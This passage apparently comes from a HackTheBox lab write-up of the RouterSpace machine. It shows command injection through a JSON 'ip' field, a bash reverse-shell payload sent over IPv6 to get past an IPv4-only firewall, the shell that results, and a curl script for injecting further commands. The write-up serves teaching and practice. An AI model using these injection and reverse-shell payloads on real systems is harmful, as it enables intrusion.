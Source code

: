 ![image-20220625161907017](https://0xdfimages.gitlab.io/img/image-20220625161907017.png)

#### Shell - Fail

My initial thought is to get a reverse shell. I’ll try my favorite [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it just hangs, with no contact at my waiting `nc`:

![image-20220625162249703](https://0xdfimages.gitlab.io/img/image-20220625162249703.png)

This is indicative of a firewall blocking outbound. `which nc` shows that `nc` is on the box, so I’ll try a simple `nc 10.10.14.6 443`, and it hangs as well.

#### Shell - Unintened Success via IPv6

There’s an unintended bypass here that IppSec pointed out - The firewall is only blocking IPv4. So it’s possible to get a shell using IPv6 with a payload like:

```

{"ip": "$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')"}

```

I’ll use `ncat` to listen on IPv6 using the `-6` flag:

```

oxdf@hacky$ ncat -6lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Connection from dead:beef::250:56ff:feb9:c742.
Ncat: Connection from dead:beef::250:56ff:feb9:c742:41884.
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
paul@routerspace:/opt/www/public/routerspace$

```

### Enumerate Host

#### Generate Bash Script

Proceeding without the unintended reverse shell, I’ll take this POST request and generate a `curl` command I can use to make enumeration easier. I like to then put it into a short `bash` script so I can just up arrow, and change the command, and re-run. The script looks like:

```

#!/bin/bash

curl -s -x http://127.0.0.1:8080 \
        -H 'user-agent: RouterSpaceAgent' \
        -H 'Content-Type: application/json' \
        -d '{"ip":"$('"$1"')"}' \
        http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess \
        | jq -r .

```
